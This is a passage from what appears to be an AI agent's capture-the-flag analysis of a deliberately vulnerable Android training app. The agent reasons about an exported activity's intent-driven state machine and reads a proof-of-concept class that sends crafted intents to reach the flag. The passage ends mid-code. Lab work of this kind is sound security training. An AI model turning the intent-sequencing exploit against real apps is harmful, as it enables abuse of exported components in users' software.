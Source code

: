     The `action` of this `Intent` (`intent.getAction()`) is used in a series of `if-else if` statements to determine the next state.
    The `getCurrentState()` method retrieves the current state from `SolvedPreferences`.
    The `setCurrentState(State state)` method updates the state in `SolvedPreferences`.
    The `success(this)` method is called when `getCurrentState()` is `GET_FLAG` (ordinal 4) and *any* intent is received (as there's no specific action check for this transition).
    The state transitions are:
    - `INIT` + "PREPARE_ACTION" -> `PREPARE`
    - `PREPARE` + "BUILD_ACTION" -> `BUILD`
    - `BUILD` + "GET_FLAG_ACTION" -> `GET_FLAG`
    - `GET_FLAG` + *any action* -> `INIT` and `success(this)` is called.
    - `REVERT` + "INIT_ACTION" -> `INIT` (This is a reset mechanism).
    If an unknown state or action is received, it transitions to `INIT`.
*   **4. Security Control Analysis:** There are no explicit security controls or sanitization on the `intent.getAction()` string. The vulnerability lies in the state machine logic itself, which requires a specific sequence of intents to reach the `success` state. The `Flag4Activity` is exported (as seen in `AndroidManifest.xml` from the `search_codebase` output), meaning any external application can send intents to it.
*   **5. Vulnerability Hypothesis:** I hypothesize that the `Flag4Activity` can be exploited by sending a sequence of explicit intents with specific actions to transition the internal state machine from `INIT` -> `PREPARE` -> `BUILD` -> `GET_FLAG`, and then sending a final, arbitrary intent to trigger the `success(this)` method and reveal the flag. The existing `MaliciousFlag4PoC.java` seems to attempt this, but it might be missing the final trigger or have an incorrect sequence. I will examine `MaliciousFlag4PoC.java` next to confirm.

--- Tool Call ---
read_file_content({'file_path': 'Android-2/MaliciousFlag4PoC.java'})

--- Tool Observation ---
package com.example.maliciousapp;

import android.app.Activity;
import android.content.ComponentName;
import android.content.Intent;
import android.os.Bundle;
import android.util.Log;

public class MaliciousFlag4PoC extends Activity {

    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";
    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";

    private static final String PREPARE_ACTION = "PREPARE_ACTION";
    private static final String BUILD_ACTION = "BUILD_ACTION";
    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        Log.d("MaliciousFlag4PoC", "MaliciousFlag4PoC started.");

        // Step 1: Send PREPARE_ACTION
        Intent prepareIntent = new Intent(PREPARE_ACTION);
        prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));
        sendBroadcast(prepareIntent); // Using sendBroadcast as it's a common way to send intents to exported components
        Log.d("MaliciousFlag4PoC", "Sent PREPARE_ACTION");
